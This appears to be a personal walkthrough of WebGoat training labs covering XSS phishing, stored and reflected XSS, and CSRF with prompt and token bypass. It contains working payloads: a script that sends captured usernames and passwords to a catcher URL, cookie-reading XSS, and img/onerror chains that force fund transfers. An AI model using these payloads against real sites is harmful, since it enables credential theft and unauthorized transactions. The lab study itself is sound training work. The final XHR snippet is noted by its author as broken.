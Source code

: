 # Phishing with XSS

Create a HTML form with 2 input fields and 1 submit button. When this button is clicked, we can see that it could our javascript code `alert('1')`

```javascript
<script>
function login() {
    alert("This is the login function!");
}
</script>
```

```html
<h1>Login required!</h1><br>
Enter username: <input type="text" id="username"><br>
Enter password: <input type="password" id="password"><br>
<input type="submit" name="login" onclick="login()">
```

The code for collecting the credentials will be replacing the code  `"alert('1')"`. The javascript will be made up of getting the user text field (id = `username`) and password field (id =  `password`).

Using javascript we can retrieve these values by simply:
(for username) `document.getElementById("username").value`
(for password) `document.getElementById("password").value`

Modifying the whole HTML code to

```html
<h1>Login required!</h1><br>
Enter username: <input type="text" id="username"><br>
Enter password: <input type="password" id="password"><br>
<input type="submit" name="login" onclick="login()">
```

```javascript
<script>
function login() {
    var temp=new Image();
    temp.src="http://http://192.168.247.135/WebGoat/catcher?PROPERTY=yes&user=" + document.getElementById("username").value+"&password="+document.getElementById("password").value;
}
</script>
```

## Lab: Stage 1 - Stored XSS

Login in with as Tom and update his profile's street as `<script>alert(1)</script>` . 

Login as Jerry this time and view Tom's profile to see the stored XSS gets triggered.

## Lab: Stage 2 - 4 (skipped)

developer version only

## Lab: Stage 5 - Reflected XSS

Login in with any user eg. Larry and perform XSS using the search input field `<script>alert(1)</script>` .

## Lab: Stage 6  skipped

developer version only

## Stored XSS Attacks

This is a public message board and if you put in an XSS script as a message and submit it. Anyone who views this will allow the script payload to be triggered.

**Title:** `Test`

**Message:** `<script>alert(document.cookie)</script>`

Click the message 'Test' in the message list to complete the challenge.

## Reflected XSS Attacks

Test all input for XSS and you will solve the challenge when you `<script>alert(1)</script>` in the 'Enter your three digit access code' input field.

*Notes: A good reflected XSS attack example was if this is a search field that is vulnerable to XSS. And our search key words is being used in a HTTP GET url, you could use a javascript payload and somehow trick the victim to click it, executing the payload in the user's context. Eg. You could make the script send the victim's cookies or session details back to you*

# Cross Site Request Forgery (CSRF)

Right click and copy link from the left side menu, then include it in the Message body of email.

`<img src=http://192.168.247.135/WebGoat/attack?Screen=52&menu=900&transferFunds=4000 width="1" height="1"></img>`

When the user clicks it, `transferFunds=4000` will be executed. 

# CSRF Prompt By-Pass

To by-pass the confirm prompt, we will use 2 seperate img element to send 2 different HTTP GET request (1) `transferFunds=4000` and (2) `transferFunds=CONFIRM`

Use the following script below:

```html
<img src="http://192.168.247.135/WebGoat/attack?Screen=45&menu=900&transferFunds=4000" onerror="document.getElementById('hackImage').src='http://192.168.247.135/WebGoat/attack?Screen=45&menu=900&transferFunds=CONFIRM'" />
<img id="hackImage" />
```

What this does is it will first make a HTTP GET request to the given URL with `transferFunds=4000` (which will request a transfer funds of 4000 and waiting for confirmation to continue), since this isnt a valid image source and will become an broken link error, the `onerror` part fires off the second part of the code to 'attach' our code `transferFunds=CONFIRM` to the 2nd image we created named "hackImage", since we are setting it's source, the image will try to load when the page is refreshed. Effectively triggering the second GET request to CONFIRM the transfer.

# CSRF Token By-Pass

To find out what is the CSRF Token attribute name. Navigate to the given parameter `http://192.168.247.135/WebGoat/attack?Screen=2&menu=900&transferFunds=main` . Enter some value in this textbox and use burp suite to intercept the traffic when you click `Submit`

Observe attribute `....&CSRFToken=-1438237164`. Also, if you inspect the form elements, you will see that there is an attribute `<input name="CSRFToken" type="hidden" .......>`.

```html
<script> 
    function getToken(){ 
        return document.forms["form"].elements["CSRFToken"].value;
    }
</script>

<img src="http://192.168.247.135/WebGoat/attack?Screen=2&menu=900&transferFunds=main" onerror="var url='http://192.168.247.135/WebGoat/attack?Screen=2&menu=900&transferFunds=9999&CSRFToken='+getToken(); document.getElementById('imageHack2').src=url" />

<img id="imageHack2" />
```

```javascript
xhttp = new XMLHttpRequest(); 
xhttp.responseType = "document"; 
xhttp.open("GET", "http://192.168.247.135/WebGoat/attack?Screen=2&menu=900&transferFunds=main");
xhttp.send();
//somehow this part below will error "Cannot read property of null, it is possible that the 'xhttp.send()' havent return yet and the next line of code started already.
var token = xhttp.response.forms["form"].elements["CSRFToken"].value;
console.log("here!");
console.log(token);
```

